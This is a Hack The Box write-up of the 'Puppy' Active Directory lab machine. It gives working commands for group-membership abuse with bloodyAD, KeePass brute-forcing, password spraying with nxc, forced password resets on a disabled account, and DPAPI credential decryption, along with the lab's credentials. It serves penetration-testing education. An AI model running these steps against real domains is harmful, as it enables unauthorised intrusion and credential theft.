



# Hack The Box - Puppy




Puppy is a medium-difficulty Windows machine in an assume-breach setup. The route starts with delegated AD rights, continues through a Keepass database and credential reuse, then ends with DPAPI decryption and access to a privileged admin account.

## Reconnaissance

I began with a port scan against the domain controller.

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-18 15:24:45Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49685/tcp open  msrpc         Microsoft Windows RPC
62126/tcp open  msrpc         Microsoft Windows RPC
64757/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows
```

The target is the domain controller for `puppy.htb`, so I added the hostname, domain, and FQDN to `/etc/hosts`.

## Initial Access

The box starts with credentials for `levi.james`:

```text
levi.james / KingofAkron2025!
```

I used those to enumerate SMB shares on the DC.

```bash
nxc smb dc.puppy.htb -u levi.james -p 'KingofAkron2025!' --shares
```

That confirmed the credentials and revealed a non-default `DEV` share, though I did not yet have access.

## Group Membership Abuse

BloodHound showed that `levi.james` had `GenericWrite` over the `DEVELOPERS` group through membership in HR. That meant I could add my account to that group and gain access to the `DEV` share.



I used `bloodyAD` to add the account to `DEVELOPERS`:

```bash
bloodyAD --host dc.puppy.htb -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

Rechecking the shares showed that `DEV` was now readable.

Inside the share I found:

- `KeePassXC-2.7.9-Win64.msi`
- `Projects/`
- `recovery.kdbx`

I downloaded the KeePass database for offline cracking.

## KeePass Cracking

The database was protected, and `keepass2john` was not useful for this version. I switched to `keepass4brute` https://github.com/r3nt0n/keepass4brute , which uses `keepassxc-cli` to test passwords from a wordlist.

After some time, it found the password:

```text
liverpool
```

Opening the database revealed several candidate passwords, including:



- `HJKL2025!`
- `Antman2025!`
- `JamieLove2025!`
- `ILY2025!`
- `Steve2025!`

I exported domain users and tried the credential set against them.

```bash
nxc smb dc.puppy.htb -u users.txt -p passwords.txt --continue-on-success
```

That produced two valid logins:

- `levi.james:KingofAkron2025!`
- `ant.edwards:Antman2025!`

## Second User

BloodHound showed that `ant.edwards` had control over `adam.silver` through the `SENIOR DEVS` group. Since `adam.silver` was a member of `REMOTE MANAGEMENT USERS`, I could make that account useful for WinRM, but it was disabled.

I changed the password and removed the disable flag:

```bash
bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' set password "adam.silver" 'Helloworld123!'
bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
```

That let me log in and collect the user flag.

## Backup Credentials

In `C:\` I found a `Backups` folder containing a ZIP archive. After downloading and unpacking it, I saw an `nms-auth-config.xml.bak` file with LDAP credentials:

```xml
<bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
<bind-password>ChefSteph2025!</bind-password>
```

That account also belonged to `REMOTE MANAGEMENT USERS`, so I used it to obtain a new session as `steph.cooper`.

## DPAPI Recovery

As `steph.cooper`, I searched for DPAPI artifacts and found a credential blob in:

```text
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

I used `impacket-dpapi credential` to inspect the blob, which revealed the masterkey GUID:

```text
556A2412-1275-4CCF-B721-E6A0B4F90407
```

The corresponding masterkey file was in:

```text
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
```

Using the SID and `ChefSteph2025!`, I decrypted the masterkey and then the credential blob.

The recovered credential was:

```text
steph.cooper_adm:FivethChipOnItsWay2025!
```

## Final Access

That account was a member of `ADMINISTRATORS`, so I used it to finish the box and retrieve the final flag.

## Attack Path

- Enumerate the domain controller and identify the `DEV` share.
- Use `levi.james` to access SMB.
- Add the account to `DEVELOPERS` through delegated `GenericWrite`.
- Download and crack the KeePass database.
- Recover additional user passwords from the vault.
- Use `ant.edwards` to modify `adam.silver`.
- Enable `adam.silver` and log in.
- Extract LDAP credentials from the backup archive.
- Use `steph.cooper` to access DPAPI artifacts.
- Decrypt the masterkey and credential blob.
- Recover `steph.cooper_adm`.
- Use the privileged account to get the final flag.
